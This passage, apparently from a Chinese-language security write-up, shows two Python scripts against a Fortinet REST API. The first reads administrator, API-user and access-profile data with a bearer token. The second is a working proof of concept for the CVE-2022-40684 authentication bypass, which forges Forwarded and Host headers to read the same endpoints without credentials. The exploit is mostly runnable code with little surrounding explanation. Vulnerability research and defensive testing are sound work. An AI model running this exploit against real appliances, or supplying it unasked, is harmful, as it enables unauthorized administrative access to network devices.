 ```
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
def check(target, token):
    headers = {
        "Authorization": "Bearer " + token,
    }
    print("[*] Try to access /api/v2/cmdb/system/admin")
    r = requests.get(target + "/api/v2/cmdb/system/admin", headers=headers, verify=False)
    print(r.status_code)
    print(r.text)

    print("[*] Try to access /api/v2/cmdb/system/api-user")
    r = requests.get(target + "/api/v2/cmdb/system/api-user", headers=headers, verify=False)
    print(r.status_code)
    print(r.text)

    print("[*] Try to access /api/v2/cmdb/system/accprofile")
    r = requests.get(target + "/api/v2/cmdb/system/accprofile", headers=headers, verify=False)
    print(r.status_code)
    print(r.text)
check("https://192.168.1.1", "r3h53QbtrmNtdk0HH5qwnw8mkcmnt7") 
```

代码实现以下三个功能：

- 查询管理员用户信息，查询失败
- 查询REST API用户信息，查询成功
- 查询配置文件信息，查询成功

### 补充：通过漏洞(CVE-2022-40684)可绕过身份认证

Python示例代码如下：

```
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def check(target):
    headers = {
        "user-agent": "Node.js",
        "accept-encoding": "gzip, deflate",
        "Host": "127.0.0.1:9980",
        "forwarded": 'by="[127.0.0.1]:80";for="[127.0.0.1]:49490";proto=http;host=',
        "x-forwarded-vdom": "root",
    }
    print("[*] Try to access /api/v2/cmdb/system/admin")
    r = requests.get(target + "/api/v2/cmdb/system/admin", headers=headers, verify=False)
    print(r.status_code)
    print(r.text)

    print("[*] Try to access /api/v2/cmdb/system/api-user")
    r = requests.get(target + "/api/v2/cmdb/system/api-user", headers=headers, verify=False)
    print(r.status_code)
    print(r.text)

    print("[*] Try to access /api/v2/cmdb/system/accprofile")
    r = requests.get(target + "/api/v2/cmdb/system/accprofile", headers=headers, verify=False)
    print(r.status_code)
    print(r.text)
check("https://192.168.1.1") 
```
